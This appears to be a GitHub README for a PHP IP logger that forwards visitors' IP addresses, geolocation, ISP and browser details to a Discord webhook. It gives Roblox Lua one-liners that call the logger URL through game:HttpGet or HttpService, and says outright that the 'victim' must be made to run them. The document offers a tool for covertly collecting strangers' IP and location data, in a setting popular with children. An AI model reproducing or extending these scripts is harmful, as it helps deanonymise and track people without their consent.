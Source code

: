 # Webhook-IP-Logger
This is a PHP IP logger I made that sends the IP's to a Discord webhook.  
# Features
- Grabs the IP then gets info about it after that it sends it to a webhook you have entered.  
- Gets Geo Location & ISP aswell as the browser
- Filters out bots
- ROBLOX Lua script for it (for exploits that have HttpGet or ROBLOX Studio)
# How to use it on ROBLOX
Step 1: Complete the tutorial above on getting an IP logger link, unless you have your own site.  
Step 2: Put the link of the IP logger in between the qoutations. Exploits is for a script that will only work on  
**Note: The victim will need to execute these scripts. Executing this yourself will only get your own IP.**  
**[Exploits]**  
```lua
game:HttpGet("Site Here")
```
**[Roblox Studio]**  
```lua
game:GetService("HttpService"):GetAsync("Site Here")
```
**[Example]**  
```lua
game:HttpGet("https://mysite.com/iplogger.php")```
